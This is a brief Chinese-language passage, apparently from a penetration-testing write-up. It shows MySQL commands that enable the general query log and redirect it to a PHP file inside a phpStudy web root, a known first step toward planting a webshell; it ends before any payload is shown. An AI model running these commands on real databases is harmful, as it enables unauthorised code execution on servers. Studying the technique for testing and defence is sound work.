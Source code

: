 

开启日志

```
SET GLOBAL general_log = 'on'
```

![image-20250405222911055](./assets/image-20250405222911055.png)



修改日志文件路径

利用先前收集的路径信息

![image-20250405223024800](./assets/image-20250405223024800.png)

修改数据库日志文件路径

```
SET GLOBAL general_log_file = 'C:/phpstudy/WWW/ra1n3.php'
```
